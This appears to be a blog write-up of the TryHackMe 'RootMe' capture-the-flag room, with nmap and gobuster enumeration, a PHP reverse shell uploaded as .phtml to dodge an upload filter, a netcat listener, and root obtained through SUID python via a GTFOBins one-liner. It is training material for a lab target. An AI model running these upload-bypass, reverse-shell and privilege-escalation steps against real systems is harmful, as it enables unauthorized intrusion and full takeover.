 ```yaml
---
title: "TryHackMe : RootMe CTF Writeup"
date: 2024-10-28 00:00:00 +212
categories: [CTF challenges ,TryHackMe CTF]
tags : [CTF , Challenges , Root Me ,Privilege Escalation ,Tryhackme ]
image:
  path: assets/headers/RootMe-CTF.webp
  alt: RootMe CTF
---
```



## Introduction

RootMe  is a beginner's training program to perform all the basic steps in an attack using a Linux computer as a target. The goal of this training is to gain root privileges and capture the flag > root.txt

This training program allows the player to practice their skills using many tools and techniques that can be found on Kali or THM AttackBox as well as resources on the Internet.

## Enumeration
```
nmap -sC -sV <IP>
```

<pre>
nmap -sC -sV 10.10.53.147
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-03 03:08 IST
Nmap scan report for 10.10.53.147
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.13 seconds
</pre>

As we see from ```nmap``` scan <br>
There are 2 ports open : <br>
22/ssh — OpenSSH 7.6p1 <br>
80/http — Apache httpd 2.4.29

## Let’s open GoBuster!
I decided to use gobuster .
```
gobuster dir -u "http://<IP>" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
<pre>
gobuster dir -u "http://10.10.53.147" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.53.147
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/03 03:18:38 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.53.147/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.53.147/css/]    
/js                   (Status: 301) [Size: 309] [--> http://10.10.53.147/js/]     
/panel                (Status: 301) [Size: 312] [--> http://10.10.53.147/panel/]  
Progress: 24472 / 220561 (11.10%)                                                ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/04/03 03:25:07 Finished
===============================================================

</pre>

```/panel```  was interesting as we can upload files here (open in browser).

## Getting a shell

```
http://<IP>/panel
```
I tried downloading the ```PHP reverse shell``` from PentestMonkey (download this file). <br>
[PHP reverse shell]( https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 
<br> <br>
![phpfile](assets/RootMe-CTF/php_file.PNG)
<br><br>
But PHP files (files with the extension ".php") are not allowed. To get around this, we just have to <b> rename </b> the extension from ```.php``` to ```.phtml```. 
 <br>
 ![phpfile](assets/RootMe-CTF/php_file1.PNG)
<br> <br>
Before uploading, change the IP address in this file to the IP address of Tun0. To find the IP address of Tun0,   <B>Use The Command :<B>
```
ip addr | grep tun0 | grep inet
```
Copy your tun0 IP and paste in the file.
<pre>
$ip = '**.*.***.***';  // CHANGE THIS
</pre>
Now open a listening port on the port mentioned in $port in the reverse shell file. Remember to use the same port mentioned in the file. By default it is "1234". <br>
<B>Use The Command :<B>
```
nc -lvnp <PORT>
```
Now upload this file `.phtml`.
Yes!!! We have successfully uploaded our reverse shell. Now let's activate it by visiting `/uploads` in the browser as we have also seen this guide in gobuster.
```
http://<IP>/uploads
```
Now, we can see our file here, click on it.<br>
Check your terminal, it found <b> remote shell access </b>. <br> 
![netcat](assets/RootMe-CTF/nc.PNG)
I ran `ls -la` but did not found user flag. <br>
To find the `user.txt` i used the `find` command:
```
find / -type f -name user.txt 2> /dev/null
```
![user](assets/RootMe-CTF/user.PNG) <br> <br>
It is located in ```/var/www/user.txt```.  <br>
<b>Read it using: <b>
```
cat /var/www/user.txt
```

## Privilege Escalation
To look for the files with SUID permission we can  <b>use the command:<b>
```
find / -type f -user root -perm -4000 2>/dev/null
```
We have ```/usr/bin/python``` with SUID permission, and we're going to try to escalate our privileges. <br>
The first thing I need to do is go to [gtfobins](https://gtfobins.github.io/) to look for possible escalation commands to escalate privileges. <br>
![suid](assets/RootMe-CTF/suid.PNG)
Search for ```python``` in the search bar.
Since we have to exploit SUID, copy the command in the SUID section, but we don't need to use the entire command, just copy
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
YES!! It indeed works. <br>
We have successfully escalate your privileges. <br> <br>
![whoami](assets/RootMe-CTF/whoami.PNG) <br> <br>
Let's start getting root knowledge. <br>
To find the ```root.txt``` run this command in the terminal :
```
find / -type f -name root.txt
```
<br>
![root](assets/RootMe-CTF/root.PNG)<br><br>
Now read the Root Flag by using: <br>
```
cat /root/root.txt
```
<br>
<B> CONGRATULATIONS!!! YOU HAVE COMPLETED THE ROOM!!! <B> 

<br>

<iframe src="https://giphy.com/embed/kVaj8JXJcDsqs" width="326" height="326" style="" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="#"></a></p>
